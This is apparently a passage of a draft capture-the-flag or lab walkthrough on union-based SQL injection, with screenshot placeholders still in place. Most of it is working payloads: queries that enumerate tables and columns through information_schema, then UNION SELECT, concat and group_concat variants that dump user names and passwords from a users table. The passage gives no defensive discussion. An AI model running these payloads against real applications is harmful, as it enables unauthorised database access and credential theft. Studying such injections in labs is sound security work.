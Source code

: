 Let's enumerate the tables

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables#

' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema=database()#
```

`<Insert screenshot>`

Let's narrow it down

```sql
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_name like 'user%'#
```

`<Insert screenshot>`

Let's note down the tables we've discovered that are potential to retrieve data

```
users
user
```

Let's enumerate the columns

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns#
```

Let's note down the columns we've discovered that are potential to retrieve data

```
USER
password
```

### 1.3 - Exfiltrate Data

#### 1.3.1 - Exploit

```sql
' UNION SELECT USER, password FROM users#
```

`<Insert screenshot>`

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#
```

`<Insert screenshot>`

```sql
' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#
```
